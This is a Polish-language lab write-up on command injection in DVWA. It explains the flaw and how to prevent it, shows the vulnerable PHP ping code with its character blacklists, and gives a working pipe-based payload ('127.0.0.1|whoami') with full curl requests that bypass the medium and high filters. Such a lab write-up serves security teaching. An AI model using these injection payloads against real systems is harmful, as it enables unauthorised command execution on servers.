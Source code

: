 # Command Injection
## Opis techniki
<blockquote>
Wstrzyknięcie poleceń to podatność, która występuje, gdy aplikacja przekazuje niebezpieczne dane dostarczone przez użytkownika (formularze, ciasteczka, nagłówki HTTP itp.) do powłoki systemowej. Pozwala to atakującemu na wykonanie dowolnych poleceń bezpośrednio w systemie operacyjnym hosta – początkowo z uprawnieniami usługi webowej.

Oto kilka kluczowych cech i zagrożeń związanych z Command Injection:
* Niewłaściwa walidacja danych wejściowych: Podatność na Command Injection pojawia się, gdy aplikacja webowa nie waliduje lub nie filtruje prawidłowo danych wejściowych, które są następnie używane do formowania i wykonania poleceń systemowych. Atakujący może wprowadzić złośliwe polecenia, które są potem uruchamiane przez system.
* Egzekucja złośliwych poleceń systemowych: Głównym zagrożeniem związanym z Command Injection jest możliwość egzekucji poleceń przez atakującego w kontekście systemu operacyjnego, na którym działa aplikacja.
* Zależność od uprawnień procesu: Skutki ataku Command Injection zależą w dużej mierze od uprawnień procesu, który wykonuje złośliwe polecenia. Jeżeli proces ma wysokie uprawnienia, na przykład jest uruchamiany jako root lub administrator, atakujący może zdobyć pełną kontrolę nad systemem.
</blockquote>

## Zapobieganie
<blockquote>
plikacje powinny unikać uruchamiania poleceń systemowych, jeśli to możliwe. Jeśli jest to nieuniknione, powinny używać interfejsów API, które pozwalają na silną parametryzację poleceń i nie pozwalają na łączenie poleceń ani przekierowanie.
</blockquote>

## DVWA labs
- [DVWA X #2 - Medium](#dvwa-Command-Injection-1---medium)
- [DVWA X #3 - High](#dvwa-Command-Injection-2---high)

<br/>

## DVWA X #1 - Medium
Na średnim poziomie trudności musimy mieć na uwadze następujące cechy laboratorium:
* Filtrowanie znaków "&&" oraz ";"

#### Kod źródłowy strony `PHP`
```php
<?php
if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = $_REQUEST[ 'ip' ];

    // Set blacklist
    $substitutions = array(
        '&&' => '',
        ';'  => '',
    );

    // Remove any of the charactars in the array (blacklist).
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    echo "<pre>{$cmd}</pre>";
}
?> 
```

#### Payload
Podatny endpoint: `http://10.10.236.56/vulnerabilities/exec`<br/>
Parametr POST: ip=127.0.0.1|whoami

#### Komenda curl - [Wzór zapytania]
```bash
curl -i -s -k -X $'POST' \
    -H $'Host: 10.10.236.56' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 37' -H $'Origin: http://10.10.236.56' -H $'Connection: close' -H $'Referer: http://10.10.236.56/vulnerabilities/exec/' -H $'Upgrade-Insecure-Requests: 1' -b $'PHPSESSID=o8’’bg59jl012q96i1sjk4p9ieo0; security=medium' --data-binary $'ip=127.0.0.1+%7C+whoami&Submit=Submit'  $'http://10.10.236.56/vulnerabilities/exec/'
```

#### Request i efekt działania:
![alt text](https://github.com/249064/CBE-BAW-2023/raw/main/res/CMD_Injection_med.png "Po wykonaniu odpowiedniego zapytania następuje wykonanie komendy whoami.")

Po wykonaniu odpowiedniego zapytania następuje wykonanie komendy "whoami", co widać w odpowiedzi serwera - użytkownik wykonujący wstrzykniętą komendę to "www-data".

<br/>
<br/>

## DVWA X #2 - High
Na trudnym poziomie trudności musimy mieć na uwadze następujące cechy laboratorium:
* Filtrowanie dużo większej ilości znaków/ciągów znaków związanych z syntax'em powłoki

#### Kod źródłowy strony `PHP`
```php
<?php
if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = trim($_REQUEST[ 'ip' ]);

    // Set blacklist
    $substitutions = array(
        '&'  => '',
        ';'  => '',
        '| ' => '',
        '-'  => '',
        '$'  => '',
        '('  => '',
        ')'  => '',
        '`'  => '',
        '||' => '',
    );

    // Remove any of the charactars in the array (blacklist).
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    echo "<pre>{$cmd}</pre>";
}
?> 
```

#### Payload
Podatny endpoint: `http://10.10.236.56/vulnerabilities/exec`<br/>
Parametr POST: ip=127.0.0.1|whoami

#### Komenda curl - [Wzór zapytania]
```bash
curl -i -s -k -X $'POST' \ -H $'Host: 10.10.236.56' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 35' -H $'Origin: http://10.10.236.56' -H $'Connection: close' -H $'Referer: http://10.10.236.56/vulnerabilities/exec/' -H $'Upgrade-Insecure-Requests: 1'  -b $'PHPSESSID=o8bg59jl012q96i1sjk4p9ieo0; security=high'  --data-binary $'ip=127.0.0.1%7Cwhoami&Submit=Submit' $'http://10.10.236.56/vulnerabilities/exec/'
```

#### Request i efekt działania:
![alt text](https://github.com/249064/CBE-BAW-2023/raw/main/res/CMD_Injection_high.png "Po wykonaniu odpowiedniego zapytania następuje wykonanie komendy whoami.")

<br/>

Po wykonaniu odpowiedniego zapytania następuje wykonanie komendy "whoami", co widać w odpowiedzi serwera - użytkownik wykonujący wstrzykniętą komendę to "www-data".
